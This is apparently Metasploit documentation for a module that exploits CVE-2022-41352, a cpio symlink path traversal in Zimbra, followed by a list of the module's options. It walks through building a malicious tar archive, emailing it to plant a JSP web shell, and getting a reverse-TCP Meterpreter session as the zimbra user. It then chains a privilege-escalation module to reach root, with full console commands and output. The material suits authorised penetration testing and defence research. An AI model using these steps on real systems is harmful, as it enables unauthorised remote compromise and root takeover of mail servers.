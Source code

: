 ## Vulnerable Application

This module exploits a symlink-based path traversal vulnerability in `cpio` (that's identified as CVE-2015-1197) that's exploitable in Zimbra. All versions of Zimbra are vulnerable, but the Ubuntu-based versions have the workaround applied by default (ie, `pax` is installed).

To verify a host is vulnerable, ensure that `pax` is not installed on the host. Also, validate that `cpio` is listed in `amavisd.conf` as an option to extract .tar/.cpio files:

```
[ron@mail tmp]$ sudo cat /opt/zimbra/conf/amavisd.conf | grep cpio
[...]

  [['cpio','tar'], \&do_pax_cpio, ['pax', 'gcpio', 'cpio'] ],
```

Note that this can be chained with CVE-2022-37393 (`exploit/linux/local/zimbra_slapper_priv_esc`), which is currently unpatched, to escalate to root.

## Verification Steps

To exploit Zimbra, first load the module and generate the .tar file:

```
msf6 > use exploit/linux/http/zimbra_cpio_cve_2022_41352
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/zimbra_cpio_cve_2022_41352) > set LHOST 172.16.166.147
LHOST => 172.16.166.147
msf6 exploit(linux/http/zimbra_cpio_cve_2022_41352) > set RHOSTS 172.16.166.158
RHOSTS => 172.16.166.158
msf6 exploit(linux/http/zimbra_cpio_cve_2022_41352) > exploit
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 172.16.166.147:4444 
[*] Encoding the payload as a .jsp file
[*] Adding symlink to path to .tar file: /opt/zimbra/jetty_base/webapps/zimbra/
[*] Adding target file to the archive: public/bdhg.jsp
[+] payload.tar stored at /home/ron/.msf4/local/payload.tar
[+] File created! Email the file above to any user on the target Zimbra server

[...] waiting [...]
```

Then, email that file to any user (including a non-existent mailbox) on the Zimbra server. Once the payload arrives at Zimbra, Zimbra should try to extract it to check for malware with no user interaction. Metasploit should see the malicious file extracted and get a session:

```
[...]
[+] File created! Email the file above to any user on the target Zimbra server
[*] Trying to trigger the backdoor @ public/bdhg.jsp every 5s [backgrounding]...

[file emailed]

[*] Sending stage (3045348 bytes) to 172.16.166.158
[*] Meterpreter session 1 opened (172.16.166.147:4444 -> 172.16.166.158:44808) at 2022-10-06 10:27:34 -0700

msf6 exploit(linux/http/zimbra_cpio_cve_2022_41352) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: zimbra
```

For bonus points, use a different module to get root:

```
msf6 exploit(linux/http/zimbra_cpio_cve_2022_41352) > use exploit/linux/local/zimbra_slapper_priv_esc
[*] Using configured payload linux/x64/meterpreter/reverse_tcp

msf6 exploit(linux/local/zimbra_slapper_priv_esc) > set SESSION 1
SESSION => 1

msf6 exploit(linux/local/zimbra_slapper_priv_esc) > exploit

[*] Started reverse TCP handler on 172.16.166.147:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Executing: sudo -n -l
[+] The target appears to be vulnerable.
[*] Creating exploit directory: /tmp/.vT1bDSvZV
[*] Attempting to trigger payload: sudo /opt/zimbra/libexec/zmslapd -u root -g root -f /tmp/.vT1bDSvZV/.RhmWwHRn
[*] Sending stage (3045348 bytes) to 172.16.166.158
[+] Deleted /tmp/.vT1bDSvZV
[*] Meterpreter session 2 opened (172.16.166.147:4444 -> 172.16.166.158:60166) at 2022-10-06 10:45:30 -0700

meterpreter > getuid
Server username: root
```


## Options

### `FILENAME`

The filename to generate - defaults to `payload.tar`, but can be changed on the filesystem or whatever.

### `TARGET_PATH`

The absolute path where the payload will extract to. The default is the webroot, which is usually what you want

### `TARGET_FILENAME`

The actual filename. It really should end with `.jsp`, otherwise it won't execute.

By default, it's a random string with `.jsp` on the end, in the `public/` folder. That should work fine, especially because we can't overwrite files and don't want to use the same payload name more than once.

### `SYMLINK_FILENAME`

The path used for the symlink inside the archive; you probably won't ever want to change this (default: random)

### `TRIGGER_PAYLOAD`

A boolean, default `true`, that determines whether we use HTTP requests to trigger the .jsp payload. Set to `false` to trigger the payload manually.

### `ListenerTimeout`

The number of seconds to wait for a new session (default = `0`, or infinite).

### `CheckInterval`

The frequency with which to check for the payload on the server. Every `CheckInterval`, it performs an HTTP request to the payload path.
